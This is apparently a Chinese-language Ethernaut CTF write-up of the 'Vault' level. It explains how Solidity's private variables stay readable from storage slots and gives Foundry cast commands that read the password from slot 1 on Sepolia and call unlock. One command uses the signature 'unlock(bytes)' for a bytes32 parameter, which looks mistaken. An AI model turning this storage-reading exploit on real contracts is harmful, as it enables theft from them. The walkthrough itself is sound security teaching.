





# Foundry 通关 Ethernaut（7）— Valut

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

解锁 vault

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. 一个公共状态变量 bool 类型的 **locked** ，一个 **private** 的状态变量 bytes32 类型 **password**
2. **constructor：** 将 **locked** 设为 **true，password** 设为指定的数据
3. **unlock**: 输入对应的 _**password，** 与 **password** 相等则解锁， **locked** 设为 **false**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

## 思路

这个合约的目标，是解锁，使 locked 等于 false，通过合约逻辑可知只有输入的 密码和预先设置的密码相等才能解锁，那么就需要想办法得到这个密码值

区块链的特性就是数据是透明的，对于 Soldity 来说，private 变量实际上更多的是逻辑上的 private，存储的插槽都是能查询获取的，我们先来看 Solidity 中状态变量的存储方式，完整的可以参考后续我整理出的 blog，目前只需要知道以下要点：

1. 合约状态变量转为16进制后相当于存储在一个长度为2的256次方的数组中，每32字节空间相当于一个插槽，从0开始计数，每个插槽初始化为 0（最终存储只有不为0的插槽会存）



1. 每个变量根据类型具有不同的内存大小，根据定义顺序紧凑存储，直到占满32字节
2. 对于复杂数据类型，定义顺序的插槽可能只存储长度，或者对应的插槽号，值数据实际存储在经过运算的（例如keccack（插槽号））的插槽中，然后连续存储知道存储所有值

那么，接下来，我们需要知道这个 _password 存在哪个插槽查看即可

```solidity
    bool public locked;
    bytes32 private password;
```

合约只有两个状态变量

1. bool 值长度为 1 个字节，bytes32 长度为32 个字节
2. bool 值 locked 首先存入 slot0，由于一个插槽存储32字节， locked +bytes32 = 33 个字节，根据紧凑存储原则 slot0 存储不了，因此 password 存入 slot1

## foundry 复现

### 1. 查询合约实例数据

1. 插槽 1 对应的密码数据

   ```solidity
   cast storage --rpc-url $Sepolia_RPC_URL [contractAddress] 1
   ```

   

2. 查询攻击前状态变量 locked 值，由于是 bool 值，我们可以知道他是 true

   ```solidity
   cast call [contractAddress] "locked()" --rpc-url $Sepolia_RPC_URL 
   ```

   

### 2. 函数调用

1. 使用查询到的密码值调用 unlock 函数

   ```solidity
   cast send [contractAddress] "unlock(bytes)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --rpc-url $Sepolia_RPC_URL --private-key $PRIVATE_KEY
   ```

   

2. 查询攻击后状态变量 locked 值，由于是 bool 值，我们可以知道他成功的变成了 false ，解锁成功！！！

   ```solidity
   cast call [contractAddress] "locked()" --rpc-url $Sepolia_RPC_URL 
   ```

   